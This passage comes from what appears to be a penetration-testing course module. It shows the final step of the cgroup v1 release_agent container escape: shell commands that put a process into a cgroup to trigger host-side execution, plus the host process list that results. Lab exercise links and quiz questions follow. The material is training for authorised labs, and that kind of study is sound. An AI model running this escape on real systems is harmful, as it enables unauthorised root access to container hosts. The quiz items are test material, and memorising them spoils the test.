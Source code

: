 > Listing 60 - Starting a Process and Moving it to our Cgroup

Excellent! We were able to execute a command on the host.

It's easy to become impatient if we have to wait 30 seconds for each command to terminate to get the output. Let's improve this part of the exploit.

We can start a process that will echo its PID to the appropriate file and immediately exit. We can **echo** the PID of the current process with the **$$** variable. Furthermore, we also need to wrap the entire echo command in a **sh** command.

Before we run this, we'll remove the current **output** file.

```
victim_release_agent:~# rm /output

victim_release_agent:~# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

victim_release_agent:~# head /output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.2 166860 11068 ?        Ss   12:40   0:01 /sbin/init
root           2  0.0  0.0      0     0 ?        S    12:40   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   12:40   0:00 [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   12:40   0:00 [rcu_par_gp]
root           5  0.0  0.0      0     0 ?        I<   12:40   0:00 [netns]
root           7  0.0  0.0      0     0 ?        I<   12:40   0:00 [kworker/0:0H-events_highpri]
root           9  0.0  0.0      0     0 ?        I<   12:40   0:00 [mm_percpu_wq]
root          10  0.0  0.0      0     0 ?        S    12:40   0:00 [rcu_tasks_rude_]
root          11  0.0  0.0      0     0 ?        S    12:40   0:00 [rcu_tasks_trace]
```

> Listing 61 - Faster execution of exploit

At this point we have immediate execution of our script and can escape the container.

This cgroup exploit is a well known exploit for escaping a privileged container. However, while cgroup v1 is still in use now, it will be phased out over time. There are also other exploits we can use to escape a container.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Containers - release_agent - Exercise

Containers - uevent_helper - Exercise

#### Labs

What is the name of the file that holds the script to be executed?

Answer

What file enables release notifications?
